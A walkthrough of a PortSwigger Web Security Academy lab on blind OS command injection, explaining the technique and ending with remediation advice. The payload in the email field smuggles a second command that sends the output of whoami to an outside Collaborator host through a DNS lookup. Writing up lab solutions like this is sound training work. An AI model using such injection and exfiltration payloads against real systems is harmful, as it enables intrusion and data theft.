




# Blind OS command injection with out-of-band data exfiltration

**Lab:** PortSwigger Web Security Academy — *Blind OS command injection with out-of-band data exfiltration* (Practitioner).

> The feedback function runs a shell command containing the user-supplied details. The command runs asynchronously, has no effect on the response, and its output cannot be redirected to a readable location. The goal is to run `whoami` and **exfiltrate the output** via a DNS query to Burp Collaborator.

## 1. The idea: smuggle output into a hostname

With pure OAST you can prove execution, but here you also need to *read* a value. The trick is to put the command's output **inside the hostname** you look up. DNS resolution sends that hostname to the Collaborator server, so the username appears as a subdomain in the interaction log.

## 2. Build the exfiltration payload

Intercept the feedback request, send it to Repeater, and set the `email` parameter to:

```text
email=||nslookup+`whoami`.abc123.oastify.com||
```

- `` `whoami` `` is **command substitution** — the shell runs `whoami` first and replaces the backticks with its output.
- that output is prepended as a subdomain of your Collaborator domain.
- `nslookup` then resolves `<username>.abc123.oastify.com`, sending the username to your server.



## 3. Read the username from the DNS interaction

Poll Collaborator. The incoming DNS lookup's hostname contains the output of `whoami` as its leftmost label:

```text
peter-xxxx.abc123.oastify.com
```





Enter the recovered username to solve the lab:



## Why the attack works

Command substitution evaluates `whoami` before `nslookup` runs, so the username becomes part of the DNS query. Because resolvers forward the full hostname to the authoritative server (your Collaborator), the data rides out over DNS even though the application never returns any output and the command runs asynchronously. This same channel can be looped to extract larger values character by character.

## Remediation

Do not build shell commands from user input; use a parameterised process API and validate the email field. Blocking or tightly monitoring outbound DNS limits OAST exfiltration as defence in depth.
